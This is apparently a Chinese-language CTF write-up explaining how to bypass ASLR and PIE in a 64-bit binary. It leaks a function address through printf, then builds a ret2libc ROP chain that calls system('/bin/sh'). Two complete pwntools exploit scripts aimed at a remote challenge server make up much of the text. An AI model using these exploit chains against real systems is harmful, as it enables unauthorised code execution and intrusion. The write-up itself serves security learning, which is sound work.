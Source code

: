 

# 绕过alsr和pie



首先查看文件为64位，没有开启栈保护，开启了栈不可执行，地址随机化PIE和系统alsr，文件时动态编译，和系统glibc相关

![image-20231123172603190](images/%E7%BB%95%E8%BF%87alsr%E5%92%8Cpie.assets/image-20231123172603190.png)



分析文件

发现将func函数地址放入了栈中

read函数从标准输入中读取最高0x30字符，放入数组

printf函数输出数组中的字符

字符数组的范围为rbp - 0x30 至 rbp - 0x28，函数地址在栈中的范围为 rbp - 0x8 到 rbp

printf函数输出%s，会遇到\0才会停止，如果在read输入中，填充0x28字符，并保证中间没有\0

那么printf函数输出字符输出中的内容后，还会输出栈中func函数的地址，就可以成功泄露func地址，计算出基址，PIE

最后mian函数调用了func函数

![image-20231123172948710](images/%E7%BB%95%E8%BF%87alsr%E5%92%8Cpie.assets/image-20231123172948710.png)



func函数中存在栈溢出漏洞

泄露func函数地址后，计算基址，然后计算got表动态地址，plt表动态地址，pop rdi 动态地址等

使用puts函数泄露got表，判断libc版本，计算出system函数动态地址和"/bin/sh"字符串动态地址

![image-20231123173510309](images/%E7%BB%95%E8%BF%87alsr%E5%92%8Cpie.assets/image-20231123173510309.png)



第一步判断libc版本

```python
#!/usr/bin/env python
from pwn import *


context.binary = binary = ELF("./ezpie",checksec=False)
context.log_level = "debug"

#启动一个进程
p = remote('43.249.195.138',21106)

payload = b"A" * 0x27

p.sendline(payload)

p.recvuntil(b"hello, ")

p.recvn(0x28)

#泄露func函数地址，计算程序基址
func_addr_base = u64(p.recvline().split(b"\n")[0].ljust(8,b"\x00"))
base_addr = func_addr_base - 0x0000120e

print(hex(func_addr_base))
print(hex(base_addr))

#got静态地址
got_puts = 0x00003fb8
got_printf = 0x00003fc0
got_read = 0x00003fc8
got_setvbuf = 0x00003fd0
plt_puts = 0x00001080
pop_rdi = 0x0000000000001333

#计算got动态地址
got_puts_base = p64(base_addr + got_puts)
got_printf_base = p64(base_addr + got_printf)
got_read_base = p64(base_addr + got_read)
got_setvbuf_base = p64(base_addr + got_setvbuf)
plt_puts_base = p64(base_addr + plt_puts)
pop_rdi_base = p64(base_addr + pop_rdi)

payload = b"A" * 0x50 + b"A" * 0x8

payload += pop_rdi_base + got_puts_base + plt_puts_base + \
            pop_rdi_base + got_printf_base + plt_puts_base + \
            pop_rdi_base + got_read_base + plt_puts_base + \
            pop_rdi_base + got_setvbuf_base + plt_puts_base
            
p.sendline(payload)

p.recvuntil(b"thank you\n")

#获取库函数动态地址
libc_puts = u64(p.recvline().split(b"\n")[0].ljust(8,b"\x00"))
libc_printf = u64(p.recvline().split(b"\n")[0].ljust(8,b"\x00"))
libc_read = u64(p.recvline().split(b"\n")[0].ljust(8,b"\x00"))
libc_setvbuf = u64(p.recvline().split(b"\n")[0].ljust(8,b"\x00"))

#打印动态地址，计算libc版本
print(hex(libc_puts))
print(hex(libc_printf))
print(hex(libc_read))
print(hex(libc_setvbuf))

p.interactive()
```



调试发现，只泄露了got表中的两个地址。

是因为到了read函数设置的限制了，payload的发送的数据有一部分并没有接受。

解决方法是分泄露got表

![3ce59c3f26a4d3f3b86564b1466266e](images/%E7%BB%95%E8%BF%87alsr%E5%92%8Cpie.assets/3ce59c3f26a4d3f3b86564b1466266e.png)



研究发现，虽然这几个libc的小版本不一样，但是这几个库函数的偏移量都一样。

![image-20231123201542934](images/%E7%BB%95%E8%BF%87alsr%E5%92%8Cpie.assets/image-20231123201542934.png)



改进一下函数，在计算完毕后返回func函数，进行二次栈溢出

完整payload

```python
#!/usr/bin/env python
from pwn import *


context.binary = binary = ELF("./ezpie",checksec=False)
context.log_level = "debug"

#启动一个进程
#p = process()
p = remote('43.249.195.138',21106)

#获取进程的pid
#pid = util.proc.pidof(p)
#pid = pid[0]

#等待进程被跟踪
#util.proc.wait_for_debugger(pid)

#p.recvuntil(b"name->")


#pause()

payload = b"A" * 0x27

p.sendline(payload)

p.recvuntil(b"hello, ")

p.recvn(0x28)

got_puts = 0x00003fb8
got_printf = 0x00003fc0
got_read = 0x00003fc8
got_setvbuf = 0x00003fd0

plt_puts = 0x00001080

pop_rdi = 0x0000000000001333

ret_addr = 0x000000000000101a


func_addr_base = u64(p.recvline().split(b"\n")[0].ljust(8,b"\x00"))
base_addr = func_addr_base - 0x0000120e

got_puts_base = p64(base_addr + got_puts)
got_printf_base = p64(base_addr + got_printf)
got_read_base = p64(base_addr + got_read)
got_setvbuf_base = p64(base_addr + got_setvbuf)

plt_puts_base = p64(base_addr + plt_puts)

pop_rdi_base = p64(base_addr + pop_rdi)

ret_addr_base = p64(base_addr + ret_addr)

print(hex(func_addr_base))
print(hex(base_addr))


p.recvuntil(b"information->")

payload = b"A" * 0x50 + b"A" * 0x8

#payload += pop_rdi_base + got_puts_base + plt_puts_base + \
#            pop_rdi_base + got_printf_base + plt_puts_base + \
#            pop_rdi_base + got_read_base + plt_puts_base + \
#            pop_rdi_base + got_setvbuf_base + plt_puts_base

#payload += pop_rdi_base + got_puts_base + plt_puts_base + \
#            pop_rdi_base + got_printf_base + plt_puts_base

#payload += pop_rdi_base + got_read_base + plt_puts_base + \
#            pop_rdi_base + got_setvbuf_base + plt_puts_base

payload += pop_rdi_base + got_puts_base + plt_puts_base + p64(func_addr_base) ## return func


#pause()

p.sendline(payload)

p.recvuntil(b"thank you\n")

libc_puts = u64(p.recvline().split(b"\n")[0].ljust(8,b"\x00"))
#libc_printf = u64(p.recvline().split(b"\n")[0].ljust(8,b"\x00"))

#libc_read = u64(p.recvline().split(b"\n")[0].ljust(8,b"\x00"))
#libc_setvbuf = u64(p.recvline().split(b"\n")[0].ljust(8,b"\x00"))

print(hex(libc_puts))
#print(hex(libc_printf))

#print(hex(libc_read))
#print(hex(libc_setvbuf))

libc_system = p64(libc_puts - 0x32190)
libc_bin_sh = p64(libc_puts + 0x13019d)

payload = b"A" * 0x50 + b"A" * 0x8

payload += ret_addr_base + pop_rdi_base + libc_bin_sh + libc_system

p.sendline(payload)

p.interactive()

```



